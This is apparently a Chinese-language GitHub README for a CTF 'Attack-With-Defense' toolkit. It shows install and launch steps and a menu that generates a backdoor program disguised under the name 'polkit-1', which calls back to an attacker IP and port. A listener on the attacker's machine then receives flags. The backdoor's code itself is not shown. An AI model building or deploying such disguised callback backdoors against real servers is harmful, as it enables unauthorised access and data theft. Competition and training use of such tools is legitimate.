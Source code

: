 # 欢迎使用AWD工具箱

由ZLL开发，专打比赛用

## 安装

环境要求：linux内核，使用python3.8及以上版本

运行以下命令安装库

```shellsession
python -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
```

## 启动

使用以下命令激活程序

```shellsession
python3 main.py
```

正确运行后，会显示

```shellsession
Welcome to AWD_toolkits.
Made by VioLina


Enter the corresponding number to use the function:
1. Activate port handler
2. Generate Backdoor program
3. Generate Backdoor script
4. Exit
```

## 生成后门程序

使用功能2

输入端口号（此处示例为1111）

输入回连ip地址（此处示例为111.111.111.111）

```shellsession
Enter the corresponding number to use the function:
1. Activate port handler
2. Generate Backdoor program
3. Generate Backdoor script
4. Exit

2
Please input port number:1111
Please input ip address(xxx.xxx.xxx.xxx):111.111.111.111
```

而后会在目录下生成名为polkit-1的后门程序（假装是权限管理程序）

## 监听端口获取flag

将后门程序上传至目标服务器并运行，而后在攻击机上开启功能1，这样就会自动监听端口了

```shellsession

Enter the corresponding number to use the function:
1. Activate port handler
2. Generate Backdoor program
3. Generate Backdoor script
4. Exit

1
Please input port number:1111
Listening on 0.0.0.0:1111...
Received: flag{test1}

```
